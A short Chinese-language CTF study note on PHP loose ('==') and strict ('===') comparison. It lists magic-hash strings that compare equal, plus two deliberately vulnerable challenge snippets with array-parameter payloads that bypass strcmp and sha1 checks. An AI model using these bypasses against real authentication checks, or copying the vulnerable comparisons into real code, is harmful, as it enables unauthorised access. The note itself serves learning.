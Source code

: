 ﻿---
title: 关于php比较运算符
tags: php
---
# 比较运算符"=="与"==="的学习：

## 关于"=="的绕过：
0e开头的全部相等
栗子:
`md5('240610708') == md5('QNKCDZO')`
`md5('aabg7XSs') == md5('aabC9RqS')`
`sha1('aaroZmOk') == sha1('aaK1STfY')`
`sha1('aaO8zKZF') == sha1('aa3OFF9m')`
`'0010e2' == '1e3'`
`'0x1234Ab' == '1193131'`
`'0xABCdef' == '     0xABCdef'`
一道简单的CTF题目：
```php
<?php
$key = "llocdpocuzion5dcp2bindhspiccy";
$flag = strcmp($key, $_GET['key']);
if ($flag == 0) {
print "Welcome!";
} else {
print "Bad key!";
}
?>
```
payload:
`?key[]=1`

var_dump(strcmp( '', array())) => NULL ⇒ NULL == 0 ⇒ Get Flag！


## 关于“===”的绕过：
利用数组绕过

一道简单的CTF题目：
```php
if (isset($_GET['name']) and isset($_GET['password'])) {
	if ($_GET['name'] == $_GET['password'])
		print 'Your password can not be your name.';
	else if (sha1($_GET['name']) === sha1($_GET['password']))
		die('Flag: '.$flag);
```
payload:
`?name[]=1&password[]=2`

